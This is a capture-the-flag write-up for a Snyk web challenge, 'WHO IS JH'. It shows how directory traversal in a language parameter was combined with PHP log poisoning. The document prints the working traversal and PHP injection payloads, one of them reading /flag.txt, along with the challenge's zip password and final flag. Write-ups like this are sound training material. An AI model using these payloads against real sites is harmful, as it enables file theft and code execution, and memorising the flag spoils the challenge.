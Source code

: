 # WHO IS JH

**Description:**

<small>Author: @HuskyHacks</small><br><br>I WANT TO BELIEVE. He can't be all three. Something doesn't add up!
<br><br> The challenge source code is available in the challenge.zip folder. The password is <code>snyk-ftf-2025</code>.
<br><br> Use the Dockerfile to run a local instance of the challenge! To build and the container, unzip the contents of the challenge.zip file and run:
<br><code>docker build -t [challenge_name] . && docker run -it -p 8080:8080 [challenge_name]</code>
<br><br>
<b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Web

**Difficulty:** easy

**File:** [challenge.zip](challenge.zip)

## Solution

While analyzing the source code and the page behavior, I noticed that conspiracy.php included an option to change languages. This functionality accepted input via the URL.

Upon reviewing log.php, I identified the file path used for storing logs. Using this information, I attempted directory traversal by passing a manipulated value in the language parameter: `conspiracy.php?language=languages/../logs/site_log.txt`
![alt text](image.png)

Next, I tried injecting PHP code via the URL: `http://challenge.ctf.games:32588/conspiracy.php?language=<?php system('cat /flag.txt'); ?>`

However, when checking the logs, I encountered an error:
```
[2025-02-27 21:00:38] Language parameter accessed: languages/../logs/site_log.txt [2025-02-27 21:01:01] Language parameter accessed: =
Fatal error: Uncaught Error: Call to undefined function system() in /var/www/html/logs/site_log.txt:2 Stack trace: #0 /var/www/html/conspiracy.php(15): include() #1 {main} thrown in /var/www/html/logs/site_log.txt on line 2 
```

This confirmed that the injected PHP code was being processed, but the system() function was disabled, preventing command execution.

Checking the Dockerfile, I found that file_get_contents() was not disabled. I then modified my payload to use this function: `conspiracy.php?language=<?php echo file_get_contents('/flag.txt'); ?>`

Navigating back to the log page, I was able to successfully retrieve the flag `flag{6558608db040d1c64358ad536a8e06c6}`
![alt text](image-1.png)
